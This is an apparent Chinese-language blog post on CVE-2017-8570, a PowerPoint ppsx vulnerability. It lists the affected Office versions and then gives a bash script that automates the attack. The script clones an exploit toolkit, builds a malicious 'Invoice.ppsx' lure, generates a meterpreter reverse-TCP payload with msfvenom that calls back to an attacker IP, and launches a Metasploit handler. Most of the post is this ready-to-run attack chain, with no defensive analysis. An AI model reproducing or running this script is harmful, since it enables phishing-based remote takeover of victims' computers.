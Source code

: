 ```yaml
---
title: "CVE-2017-8570 自动化"
date: 2019-01-07T23:01:31+08:00
categories: ['Vulnerability']
tags: ['CVE','Vulnerability']
---
```

CVE-2017-8570是一个PowerPoint演示文稿的漏洞，利用方法简单且危害较大。攻击者只需要将生成的恶意ppsx（ppsx是office2007版以后的演示文稿的保存格式）文档发送给用户，用户打开放映后就会中招。
<!--more-->
### 影响版本
影响范围：
```html
Microsoft Office 2007 Service Pack 3
Microsoft Office 2010 Service Pack 2 (32-bit editions)
Microsoft Office 2010 Service Pack 2 (64-bit editions)
Microsoft Office 2013 RT Service Pack 1
Microsoft Office 2013 Service Pack 1 (32-bit editions)
Microsoft Office 2013 Service Pack 1 (64-bit editions)
Microsoft Office 2016 (32-bit edition)
Microsoft Office 2016 (64-bit edition)
```
### 自动化脚本

```bash
attack_ip="192.168.1.212"
LPORT="6666"
DIR="/var/cve2017"

if [ -d ${DIR} ]; then
    rm -rf ${DIR}
    mkdir ${DIR}
else
    mkdir ${DIR}
fi
cd $DIR
`git clone https://github.com/tezukanice/Office8570.git`
cd Office8570
mkdir template
mv template.ppsx template/template.ppsx
python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://$attack_ip"/logo.doc"
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=${attack_ip} LPORT=${LPORT} -f exe > ${DIR}/shell.exe`

gnome-terminal -e "python cve-2017-8570_toolkit.py -M exp -e http://${attack_ip}/shell.exe -l ${DIR}/shell.exe"

`service postgresql start`
if [ -f "exp.rc" ]; then
    rm "exp.rc"
fi
echo "use exploit/multi/handler">>exp.rc
echo "set LHOST "$attack_ip>>exp.rc
echo "set LPORT "$LPORT>>exp.rc
echo "set PAYLOAD windows/x64/meterpreter/reverse_tcp">>exp.rc
echo "exploit">>exp.rc
gnome-terminal -e "msfconsole -r exp.rc"
```



参考链接

1. https://github.com/tezukanice/Office8570
2. https://xz.aliyun.com/t/3772
3. https://github.com/Drac0nids/CVE-2017-8570